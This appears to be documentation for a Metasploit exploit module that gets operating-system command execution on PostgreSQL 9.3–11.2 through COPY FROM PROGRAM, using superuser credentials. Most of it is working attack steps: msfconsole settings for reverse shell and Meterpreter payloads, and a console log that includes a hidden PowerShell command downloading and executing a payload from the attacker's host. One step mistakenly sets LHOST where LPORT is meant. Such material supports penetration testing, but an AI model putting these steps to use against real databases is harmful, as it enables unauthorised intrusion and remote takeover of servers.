 This module attempts to create a new table, then execute system commands in the
context of copying the command output into the table.

This module should work on all Postgres systems running version 9.3 and above.

## Vulnerable Application

  Download any version of PostgreSQL from 9.3 to 11.2 (Latest at time of writing)
  Set up the software and connect as the postgres superuser.
  Use the techniques described in this blogpost to verify command execution:
    https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## Verification Steps

  You must be able to connect to the PostgreSQL database, and have a valid set of superuser
  credentials, or a user in the 'pg_read_server_files' group
  
  Exploiting Linux/OSX:

    1. Start msfconsole
    2. use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    3. set RHOST target.ip.add.ress
    4. set payload cmd/unix/reverse_perl
    5. set PASSWORD postgres
    6. set USERNAME postgres
    7. set DATABASE postgres
    8. set LHOST my.ip.add.ress
    9. set LHOST myport
    10. exploit
  
  Exploiting Windows:

    1. Start msfconsole
    2. use exploit/multi/script/web_delivery
    3. set target 2
    4. set payload windows/meterpreter/reverse_tcp
    5. set LHOST my.ip.add.ress
    6. exploit -j
    7. Copy powershell command, add \ to escape any single quotes
    8. use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    9. set RHOST target.ip.add.ress
    10. set COMMAND powershell... (Output from Step 7)
    11. set PASSWORD postgres
    12. set USERNAME postgres
    13. set DATABASE postgres
    14. exploit


## Options

  **COMMAND**

  Instead of using a cmd stager metasploit payload, for windows you need to execute a command. This is suggested to be 
  a web_delivery powershell command, however other techniques can be used. 
  
  **TABLENAME**
  
  The name of the table to create in the database, default is set to 'msftesttable', this table will be dropped create a new
  one each time the exploit is run.
  
  **DATABASE**
  
  Name of the database to connect to
  
  **USERNAME**
  
  A valid username that allows access to the database
  
  **PASSWORD**
  
  A valid password that allows access to the database
  
## Scenarios

### Exploiting PostgreSQL 10.7 on Linux

   ![Image Not Found](https://cdn-images-1.medium.com/max/1600/1*G0E4YMdLA59lDsDm38Ce-g.png)
   ![Image Not Found](https://cdn-images-1.medium.com/max/1600/1*sJLJlahpTxWrB566k-IHwQ.png)
   
### Exploiting PostgreSQL 10.7 on Windows

    ```
    msf5 exploit(multi/script/web_delivery) > set target 2
target => 2
msf5 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > set LHOST 192.168.0.18
LHOST => 192.168.0.18
msf5 exploit(multi/script/web_delivery) > show options

Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.18     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   PSH


msf5 exploit(multi/script/web_delivery) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.0.18:4444
[*] Using URL: http://0.0.0.0:8080/pUDD5sy8vTTD
[*] Local IP: http://192.168.0.18:8080/pUDD5sy8vTTD
[*] Server started.
[*] Run the following command on the target machine:
msf5 exploit(multi/script/web_delivery) > powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring('http://192.168.0.18:8080/pUDD5sy8vTTD');

msf5 exploit(multi/script/web_delivery) > use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set DATABASE postgres
DATABASE => postgres
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set RHOSTS 192.168.0.24
RHOSTS => 192.168.0.24
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show options

Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMAND                     no        Send a custom command instead of a payload, use with powershell web delivery against windows
   DATABASE   postgres         yes       The database to authenticate against
   PASSWORD   postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS     192.168.0.24     yes       The target address range or CIDR identifier
   RPORT      5432             yes       The target port (TCP)
   TABLENAME  msftesttable     yes       A table name that doesnt exist(To avoid deletion)
   USERNAME   postgres         yes       The username to authenticate as


Exploit target:

   Id  Name
   --  ----
   0   Automatic
    
    
    ```
